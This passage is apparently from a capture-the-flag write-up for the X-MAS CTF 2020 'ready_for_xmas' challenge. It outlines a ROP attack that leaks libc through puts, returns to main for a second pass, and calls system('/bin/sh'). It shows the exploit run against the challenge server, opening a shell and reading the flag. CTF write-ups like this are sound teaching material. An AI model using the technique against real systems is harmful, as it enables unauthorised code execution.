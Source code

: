 Finally, standard fare CTF ROPing.  Just leak libc with `puts`, loop back to `main` for a second pass; since we reset global `DAT_00601099`, we'll pass the check allowing for a second pass.

Using the libc leak search libc for `/bin/sh` and use the libc `system` (the GOT `system` would have worked as well).

Output:

```bash
# ./exploit_fun.py REMOTE=1
[*] '/pwd/datajerk/xmasctf2020/ready_for_xmas/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challs.xmas.htsp.ro on port 2001: Done
[*] '/pwd/datajerk/xmasctf2020/ready_for_xmas/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './chall'
[*] libc.address: 0x7fb6b4795000
[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat /home/ctf/flag.txt
X-MAS{l00ks_lik3_y0u_4re_r3ady}
```


